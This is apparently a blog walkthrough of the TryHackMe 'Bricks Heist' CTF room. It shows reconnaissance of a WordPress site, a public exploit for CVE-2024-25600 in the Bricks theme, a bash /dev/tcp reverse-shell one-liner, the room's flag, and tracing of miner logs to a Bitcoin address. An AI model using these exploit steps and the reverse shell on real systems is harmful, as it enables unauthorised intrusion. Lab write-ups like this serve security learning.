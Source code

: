 ```yaml
---
title: "TryHackMe - Bricks Heist"
date: 2025-02-23 22:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [wordpress, exploitation]

---
```


---

## Bricks Heist - TryHackMe Walkthrough

### 1. Initial Scanning

I started by scanning the target machine with Nmap:

```bash
nmap -v 10.10.145.97
```

### 2. Identifying the Web Application

Visiting the website, I immediately noticed it was running on WordPress. To gather more details, I attempted a scan with WPScan:

```bash
wpscan --url https://bricks.thm --disable-tls-checks
```

### 3. Finding Exploits

From the scan results, I found that the site was using the "Bricks" theme version 1.9.5. I searched for exploits and found:

- [CVE-2024-25600 Exploit](https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT)
- [Exploit tool](https://github.com/Chocapikk/CVE-2024-25600)

### 4. Exploiting the Vulnerability

I ran the exploit according to the provided instructions. If you encounter issues installing the `alive-progress` package, use:

```bash
pip install alive-progress --break-system-packages
```

Then, I executed:

```bash
python3 bricks.py -u https://bricks.thm
```

### 5. Obtaining a Reverse Shell

To establish a reverse shell, I used Netcat:

```bash
nc -lvnp 4444
```

On the target machine:

```bash
bash -c 'exec bash -i &>/dev/tcp/10.8.21.77/4444 <&1'
```

Upon connection, I retrieved the first flag from:

```
650c844110baced87e1606453b93f22a.txt
```

**Flag:** `THM{fl46_650c844110baced87e1606453b93f22a}`

### 6. Privilege Escalation

I investigated running processes and found the system was running Ubuntu 20.04.6:

```bash
cat /etc/issue
```

Checking active services:

```bash
systemctl list-units --type=service --state=running
```

A suspicious service named `ubuntu.service` was running:

```bash
systemctl cat ubuntu.service
```

The service executed a process called `nm-inet-dialog` from `/lib/NetworkManager`. Upon inspecting the directory, I found a file `inet.conf` containing interesting information—Bitcoin miner logs and an encoded string:

```
5757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d
```

Decoding the string using CyberChef and ChatGPT revealed Bitcoin address:

```
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qabc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa
```

I discovered that this could be a Bitcoin SegWit address used for BTC transactions. However, SegWit addresses are typically between 42-62 characters long, whereas the one I found was 86 characters long, suggesting it might be duplicated. After splitting it in half, I obtained the valid address:
```
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```
Researching further, I found that this address was associated with LockBit transactions:

- [BlockChain](https://www.blockchain.com/explorer/addresses/btc/bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa)
### Conclusion

This room demonstrated various techniques, from reconnaissance and vulnerability exploitation to privilege escalation and cryptocurrency investigation. It was an interesting challenge that highlighted real-world attack vectors!

